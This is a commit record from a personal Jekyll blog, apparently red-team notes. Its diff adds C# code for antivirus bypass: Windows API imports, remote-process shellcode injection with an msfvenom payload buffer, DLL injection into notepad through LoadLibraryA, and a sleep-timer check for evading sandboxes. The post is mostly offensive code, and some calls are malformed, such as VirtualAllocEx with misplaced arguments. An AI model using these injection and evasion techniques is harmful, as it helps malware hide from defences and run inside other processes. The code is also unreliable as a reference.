

Before and after one commit to daniel2005d/daniel2005d.github.io, a Jekyll site: the page built from _posts/2024-07-16-bypass-av.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add AV Bypass

````diff
--- a/_posts/2024-07-16-bypass-av.md
+++ b/_posts/2024-07-16-bypass-av.md
@@ -4,6 +4,121 @@
 tags: ["bypass","evassion", "av", "DefenderCheck", "Netloader","obfuscate"]
 
 ---
+# C#
+
+
+```cs
+ [DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
+ [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
+ public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
+
+ [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
+ public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
+
+ [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
+ public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
+
+ [DllImport("kernel32.dll")]
+ public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
+
+ [DllImport("kernel32.dll")]
+ public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
+
+ [DllImport("kernel32.dll")]
+ public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
+
+ [DllImport("kernel32.dll")]
+ public static extern IntPtr GetProcAddress(IntPtr module, string processName);
+
+ [DllImport("kernel32.dll")]
+ public static extern IntPtr GetModuleHandle(string lpModuleName);
+
+ [DllImport("kernel32.dll")]
+ public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
+
+ [DllImport("kernel32.dll")]
+ public static extern void Sleep(uint dwMilliseconds);
+
+
+const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
+const uint MEM_COMMIT=0x1000;
+const uint MEM_RESERVE=0x3000;
+const uint PAGE_EXECUTE_READWRITE=0x40;
+```
+
+## Process Injection
+
+```cs
+static void Main(string[] args){
+
+
+    IntPtr hProcess = OpenProcess(0x001F0FFF, false, <ProcessId>);
+
+    IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE);
+
+    //SHELL Code
+    // msfvenom -p /windows/x64/exec CMD=calc.exe -f csharp
+    byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc...}
+
+    IntPtr outSize;
+    WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
+
+    IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
+}
+```
+
+## DLL Injection
+
+```cs
+
+// Example: msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o DLL_PATH
+
+string dllName = "DLL_PATH";
+
+
+Process[] expProc = Process.GetProcessesByName("notepad");
+int pid = expProc[0].Id;
+
+IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
+IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
+IntPtr outSize;
+Boolean res = WriteProcessMemory(hProcess, addr,
+Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
+IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
+"LoadLibraryA");
+IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
+addr, 0, IntPtr.Zero);
+
+```
+
+## Reflective DLL Injection
+
+
+
+## SLEEP Timer
+
+```cs
+[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
+public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
+
+[DllImport("kernel32.dll")]
+public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
+
+
+[DllImport("kernel32.dll")]
+public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
+
+[DllImport("kernel32.dll")]
+public static extern UInt32 Sleep(uint dwMilliseconds);
+
+  DateTime t1 = DateTime.Now;
+  Sleep(2000);
+  double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
+  if (t2 < 1.5)
+  {
+      return;
+  }
+```
 
 # Nimcrypt2
 
````
Also changed, not shown: _posts/2024-08-15-hardware.md (+4 -3 lines).
